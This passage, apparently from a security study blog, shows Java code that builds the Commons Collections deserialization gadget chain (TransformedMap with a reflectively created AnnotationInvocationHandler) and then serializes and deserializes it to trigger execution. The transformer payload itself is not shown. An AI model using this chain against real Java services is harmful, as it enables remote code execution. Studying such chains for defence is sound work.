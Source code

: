 ```java
        HashMap map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        map.put("value","bbb");
        Class AnnotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotartionConstructer = AnnotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        AnnotartionConstructer.setAccessible(true);
        Object o = AnnotartionConstructer.newInstance(Target.class,transformedMap);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }



}
```

![image-20250217223428712](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217223428827.png)


